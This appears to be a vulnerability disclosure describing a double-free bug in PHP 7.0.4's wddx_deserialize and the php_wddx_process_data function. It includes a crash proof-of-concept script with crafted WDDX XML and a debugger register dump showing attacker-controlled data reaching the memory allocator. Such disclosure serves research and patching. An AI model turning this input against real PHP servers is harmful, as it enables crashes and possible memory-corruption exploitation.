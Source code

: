 ```
						efree(ent->varname);
					}
					ZVAL_UNDEF(&ent->data);
				}
				break;
        ...snip....
}
```
In php_wddx_process_data they just compare value data with "true" or "false" and set 0/1 to ent->data. The  problem is if value is not true/false then they call **efree(ent->varname) ** .
After that, php_wddx_process_data back to php_wddx_push_element to continute execution. If i add some string in <boolean> (ex: <boolean value="none">AAAAA</boolean> ), php_wddx_process_data will call again (after php_wddx_push_element had ended) and wddx_stack_top will return the same ent in the last called  php_wddx_process_data and because s in this second call point to own xml string and ent->type still is boolean so efree(ent->varname) will hit again, and this leads to double free.

### Crash Poc (Ubuntu 16.04 x86_64,PHP 7.0.4 (cli))
test.php
```
<?php
$xml = <<<EOF
<?xml version='1.0' ?>
<!DOCTYPE wddxPacket SYSTEM 'wddx_0100.dtd'>
<wddxPacket version='1.0'>
	<array>
		<var name="XXXXXXXX">
			<boolean value="none">AAAAAAA</boolean>
		</var>
		<var name="YYYYYYYY">
			<var name="ZZZZZZZZ">
				<var name="EZEZEZEZ">
				</var>
			</var>
		</var>
	</array>
</wddxPacket>
EOF;
$array = wddx_deserialize($xml);

// echo var_dump($array);

foreach($array as $key => $value){
	echo "{$key} : {$value}\n";
}
// php
?>
```

And we got :
```
Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0x5959595959595959 ('YYYYYYYY')
RBX: 0x5
RCX: 0x14
RDX: 0x9 ('\t')
RSI: 0x30 ('0')
RDI: 0x7ffff4400040 --> 0x0
RBP: 0x7fffffffab20 --> 0x7fffffffab90 --> 0x7fffffffabc0 --> 0x7fffffffac00 --> 0x7fffffffad20 --> 0x7fffffffada0 --> 0x121b780 --> 0x1217fe0 --> 0x0
RSP: 0x7fffffffaad0 --> 0x7ffff4471100 --> 0x9 ('\t')
RIP: 0x8536b1 (<zend_mm_alloc_small+176>:	mov    rdx,QWORD PTR [rax])
R8 : 0x313
R9 : 0x0
```